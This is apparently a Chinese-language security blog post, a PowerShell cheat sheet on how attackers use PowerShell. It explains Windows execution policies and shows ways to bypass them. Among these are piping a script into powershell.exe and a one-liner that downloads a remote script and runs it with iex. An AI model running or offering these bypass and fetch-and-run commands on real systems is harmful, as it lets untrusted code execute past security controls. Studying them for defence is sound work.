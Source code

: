 ```yaml
---
title: 'powershell备忘单2'
layout: post
tags: 
  - windows
  - hack
  - command
  - powershell
category:
  - hack
  - sec
  - windows
comments: true
share: true
---
```


* TOC
{:toc}



## PowerShell在攻击中的不同阶段使用

这个章节将会显示使用 pwershell 在不同阶段的攻击，什么框架支持攻击者达到目标，和攻击者面临的挑战。 



### EXECUTION POLICY(执行策略) 


默认情况下，微软使用执行策略限制 powershell 脚本，一共有五个选项分别为用户或计算机设置： 

```
Restricted   限制 
AllSigned    所有的签名 
RemoteSigned  远程签名 
Unrestricted 无限制 Bypass  
```
没有为安全设计的功能，而只是防止用户意外的执行脚本。这些策略有助于防止用户被社会工程学攻击诱骗执行恶意脚本。当一个用户启动一个 ps1 脚本，他将在记事本中打开，而不是执行。 

默认执行策略是 Restricted. 除了 Windows Server2012R2，它是RemoteSigned。Restrcted 策略仅仅准许交互式powershell会话，和单个命令，无论脚本来自何处或是否经过数字签名和信任。组织可以根据自己的需要在自己环境中配置不同的策略。策略可以设置使用不同的范围，如Machinepolicy  、Userpolicy, Process、CurrentUser、或者LocalMachine。微软提供更多关于怎么样为每个作用域设置执行策略。（ Get-ExecutionPolicy为获取当前策略，Set-ExecutionPolicy 为设置策略） 

然而，攻击者有很多方法可以用来bypass这些执行策略。最常见到的是：通过管道方式将脚本内容插入 powershell.exe 的标准输入内。例如 type 命令例子：`Type myscript.ps1 | powershell.exe –noprofile -`

> （译者注：-noprofile 为不加载 windows powershell 配置文件，也可以简写为-NoP，更多参数可以输入 powershell –help 查看）

使用命令参数来执行单个命令，这样就不受执行策略限制。还可以下载并且执行其它脚本。例子： 

`Powershell.exe     –command    “iex(New-Object 
Net.WebClient).DownloadString(‘http://[REMOVED]/myscript.ps1’)”` 
